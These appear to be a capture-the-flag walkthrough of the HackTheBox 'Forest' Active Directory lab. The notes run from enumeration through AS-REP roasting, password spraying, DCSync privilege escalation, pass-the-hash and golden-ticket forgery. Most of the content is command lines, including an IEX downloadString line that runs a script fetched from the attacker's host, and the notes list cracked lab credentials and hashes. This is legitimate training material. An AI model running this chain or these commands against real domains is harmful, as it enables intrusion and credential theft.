


Using autorecon for enumeration:
```
# Nmap 7.94SVN scan initiated Wed Feb 21 18:25:05 2024 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Downloads/forest/results/10.10.10.161/scans/_full_tcp_nmap.txt -oX /home/kali/Downloads/forest/results/10.10.10.161/scans/xml/_full_tcp_nmap.xml 10.10.10.161
Nmap scan report for 10.10.10.161
Host is up, received user-set (0.044s latency).
Scanned at 2024-02-21 18:25:19 IST for 119s
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE      REASON          VERSION
88/tcp    open  kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-02-21 06:02:48Z)
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?    syn-ack ttl 127
593/tcp   open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped   syn-ack ttl 127
3268/tcp  open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped   syn-ack ttl 127
5985/tcp  open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       syn-ack ttl 127 .NET Message Framing
47001/tcp open  http         syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49671/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49676/tcp open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49682/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49704/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49952/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Aggressive OS guesses: Microsoft Windows Server 2016 (95%), Microsoft Windows Server 2016 build 10586 - 14393 (95%), Microsoft Windows 10 1507 (93%), Microsoft Windows 10 1507 - 1607 (93%), Microsoft Windows 10 1511 (93%), Microsoft Windows Server 2012 (93%), Microsoft Windows Server 2012 R2 (93%), Microsoft Windows Server 2012 R2 Update 1 (93%), Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1 (93%), Microsoft Windows Vista SP1 - SP2, Windows Server 2008 SP2, or Windows 7 (93%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

Uptime guess: 0.093 days (since Wed Feb 21 16:14:03 2024)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=265 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: -4h13m09s, deviation: 4h37m10s, median: -6h53m10s
| smb2-time: 
|   date: 2024-02-21T06:03:59
|_  start_date: 2024-02-21T03:51:11
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 32753/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 55576/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 44587/udp): CLEAN (Timeout)
|   Check 4 (port 7752/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2024-02-20T22:04:00-08:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required

TRACEROUTE (using port 554/tcp)
HOP RTT      ADDRESS
1   43.74 ms 10.10.14.1
2   43.85 ms 10.10.10.161

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Feb 21 18:27:18 2024 -- 1 IP address (1 host up) scanned in 133.17 seconds

```
## DNS(53)
`nslookup`
`server 10.10.10.161`
`127.0.0.1`
`127.0.0.2`
No hostname reveal
# LDAP (389)
`ldapsearch -x -s base namingcontexts -H ldap://10.10.10.161`

`ldapsearch -x -b "DC=htb,DC=local" -H ldap://10.10.10.161`
Then we should get a whole list to enumerate from
`ldapsearch -x -b "DC=htb,DC=local" -H ldap://10.10.10.161 'objectClass=Person'`
'objectClass=Person' is a query
`ldapsearch -x -b "DC=htb,DC=local" -H ldap://10.10.10.161 'objectClass=Person' sAMAccountName | grep sAMAccountName` to get account names

Saving it in a file and using only the user accounts:

Now making a passwordlist:
```
January
February
March
April
May
June
July
August 
September
October
November
December
P@ssw0rd
Password
Forest
Secret 
Autumn
Fall
Spring
Winter
Summer
```
Now adding years:
```
for i in $(cat passlistt.txt); do echo $i; echo ${i}2019; echo ${i}2020; done > t
```
Now for mutating it :
```
hashcat --stdout passlistt.txt -r /usr/share/hashcat/rules/best64.rule -r /usr/share/hashcat/rules/toggles1.rule| sort -u | awk 'length($0)> 7' > t
```
To check password-policy:
```
nxc smb 10.10.10.161 --pass-pol -u '' -p ''
```
Works for old only as it is null authentication

Can also do:
```
rpcclient -U '' -N 10.10.10.161
```
We get a new username:


Checking groups of the username:


Now to bruteforce create a new userlist.out and add the new username as well:
```
nxc smb 10.10.10.161 -u userlist.out -p passlistt.txt 
```

To get the hash for that service account:
```
GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/' -format hashcat
```

Using hashcat found:
svc-alfresco: `s3rvice`
To check shares:
```
crackmapexec smb 10.10.10.161 -u svc-alfresco -p s3rvice --shares
```

### TODO:
Now we have access to SYSVOL so trying to extract password from it

## WinRM(5985)
using evil-winrm to login to the svc-alfresco account:
`evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161`
We get a user shell:

Now host an smb server:
- Attacker:
	- `sudo impacket-smbserver aditya $(pwd) -smb2support`
- Target:
	- ` $pass = convertto-securestring 'aditya' -AsPlainText -Force`
	- `$cred = New-Object System.Management.Automation.PSCredential{'aditya',$pass}`
	- `New-PSDrive -Name aditya -PSProvide FileSystem -Credential $cred -Root \\10.10.14.22\aditya`
	- `cd aditya:`
Running winpeas:
`.\winPEASObfuscated.exe'
Now using sharphound to collect data:
`.\SharpHound.exe -c all`

Using nslookup to lookup Ip of exch01.htb.local we find that it is dead after trying to ping it from svc-alfresco

We discover that we have adding account permission:
`net user aditya aditya123@ /add /domain`
So adding to Windows exchange permissions group we discovered in bloodhound:
`net group "Exchange Windows Permissions" /add aditya`

Now using powersploit powerview:
Using python3 webserver to host now
`IEX(New-Object Net.WebClient).downloadString('http://10.10.14.22/PowerView.ps1')`
Using bloodhound for commands:

`$pass = ConvertTo-SecureString 'aditya123@' -AsPlainText -Force`

`$cred = New-Object System.Management.Automation.PSCredential('HTB\aditya', $pass)`

`Add-DomainObjectAcl -Credential $cred -TargetIdentity htb.local -Rights DCSync`

Use `git clone https://github.com/PowerShellMafia/PowerSploit -b dev` if the command doesn't work

Now to get the hashes:
`secretsdump.py htb.local/aditya:aditya123@@10.10.10.161`

Now modifying the powersploit command after googling:
`Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity aditya -Rights DCSync  -Credential $cred`

Then running secretsdump.py for hashes:
`secretsdump.py htb.local/aditya:aditya123@@10.10.10.161`

We got the hash for administrator:

 Using crackmapexec to use the hash to check if pwned:
 `cme smb 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6 `

To get a shell:
`psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161 `

Now to get only the NTLM hashes and username:
`cat hashes.out | grep ::: | awk -F: '{print $1":" $4}'`
Now cracking the password with hashcat:
`hashcat --user -m 1000 '/home/aditya/Documents/Kali/all_hashes.txt' '/home/aditya/Documents/Kali/rockyou.txt' -O`

htb.local\svc-alfresco:s3rvice
htb.local\santi:plokmijnuhb
# Golden Ticket
Since we have the krbtgt we can do a  golden ticket attack:
`krbtgt:819af826bb148e603acb0f33d17632f8`
We need domain-sid so using powersploit:
`Get-DomainSID -Domain htb.local`
`S-1-5-21-3072663084-364016917-1341370565`
Now using this info with impacket ticketer to get the golden ticket:
`ticketer.py -nthash 819af826bb148e603acb0f33d17632f8 -domain-sid S-1-5-21-3072663084-364016917-1341370565 -domain htb.local DoesNotExist`
Putting the ticket in our environment variable:
`export KRB5CCNAME=DoesNotExist.ccache`
 **Note:** before psexec check if dns and time is configured properly
`psexec.py -debug htb.local/administrator@forest -k -no-pass`

